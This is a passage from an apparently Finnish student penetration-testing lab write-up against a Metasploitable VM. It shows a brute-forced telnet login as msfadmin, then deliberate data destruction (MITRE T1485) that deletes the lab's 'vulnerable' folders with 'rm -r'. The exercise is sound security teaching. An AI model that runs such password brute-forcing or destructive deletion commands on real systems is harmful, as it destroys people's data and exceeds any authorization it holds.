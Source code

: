 ``````
[*] Auxiliary module execution completed
``````

Saimme salasanan murrettua! Kokeillaa sissänkirjautumista ja se onnistui.

``````
metasploitable login: msfadmin
Password: 
Last login: Sun Dec  3 08:26:44 EST 2023 on pts/1
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

msfadmin@metasploitable:~$ whoami
msfadmin
```````


### 5. Impact/TA0040 - [Data Destruction/T1485](https://attack.mitre.org/techniques/T1485/)

Hyökkääjät voivat tuhota tietoja ja tiedostoja järjestelmissä tai verkossa keskeyttääkseen järjestelmien, palvelujen ja verkkoresurssien saatavuuden. Tietojen tuhoaminen tekee tallennetuista tiedoista todennäköisesti sellaisia, ettei niitä voida palauttaa rikosteknisin menetelmin.

Kun olimme telnet-yhteydellä sisällä, päätin alkaa tuhoamaan tiedostoja ja kansioita.

`````
msfadmin@metasploitable:~$ ls
vulnerable
msfadmin@metasploitable:~$ cd vulnerable/
msfadmin@metasploitable:~/vulnerable$ ls
mysql-ssl  samba  tikiwiki  twiki20030201
`````
POistan kaikki kansiot komennolla <code>rm -r [kansion nimi]</code>

``````
msfadmin@metasploitable:~/vulnerable$ ls
msfadmin@metasploitable:~/vulnerable$ 
``````
Nyt kansiota ja niiden sisältöä ei ole enää olemassa. Ne ovat tuhottu.

[Data Destruction](https://attack.mitre.org/techniques/T1485/) -kuvauksessa kerrotaan, että del ja rm, poistavat usein vain osoittimet tiedostoihin pyyhkimättä itse tiedostojen sisältöä, jolloin tiedostot ovat palautettavissa asianmukaisin rikosteknisin menetelmin. Joten on siis mahdollista, että tiedot voidaan palauttaa, mutta tämä testi demonstroi tilannetta käytännössä. 


## Lähteet

Karvinen Tero, Tunkeutumistestaus, h6 Attaaack, 2023 (https://terokarvinen.com/2023/eettinen-hakkerointi-2023/#h6-attaaack)

MITRE ATT&CK, 2023 (https://attack.mitre.org/)

MITRE ATT&CK, Data Destruction, 2023 (https://attack.mitre.org/techniques/T1485/)

Louay Karadsheh, PhD, CISSP, CEH, CASP, Exploiting Metasploitable 2 - Brute Force Attack for Telnet Password, YouTube, 2023 (https://www.youtube.com/watch?v=EavbD2EWzVA)

